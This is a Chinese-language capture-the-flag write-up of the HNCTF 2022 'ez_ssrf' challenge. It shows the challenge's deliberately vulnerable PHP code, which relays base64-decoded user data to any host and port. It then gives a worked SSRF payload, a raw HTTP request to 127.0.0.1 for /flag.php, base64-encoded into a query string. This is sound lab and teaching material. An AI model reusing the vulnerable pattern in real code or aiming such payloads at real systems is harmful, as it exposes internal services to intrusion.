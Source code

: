 ```yaml
---
title: '[HNCTF 2022 WEEK2]ez_ssrf'
date: 2025-04-15 15:25:27
tags: ssrf
categories: 刷题笔记
---
```


#### [HNCTF 2022 WEEK2]ez_ssrf

```php
<?php

highlight_file(__FILE__);
error_reporting(0);

$data=base64_decode($_GET['data']);
$host=$_GET['host'];
$port=$_GET['port'];

$fp=fsockopen($host,intval($port),$error,$errstr,30);
if(!$fp) {
    die();
}
else {
    fwrite($fp,$data);
    while(!feof($data))
    {
        echo fgets($fp,128);
    }
    fclose($fp);
}
```

我们看到fsockopen函数，就知道这题一个是个ssrf的题

先审计代码

首先通过fsockopen()函数建立与指定主机和端口的socker连接，然后它将传入的数据进行base64解码，然后将数据写入到连接的socket中

我们构造http头来访问/flag

```
GET /flag.php HTTP/1.1
Host: 127.0.0.1
Connection: Close
```

进行base64加密，连接本地

```
?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=
```

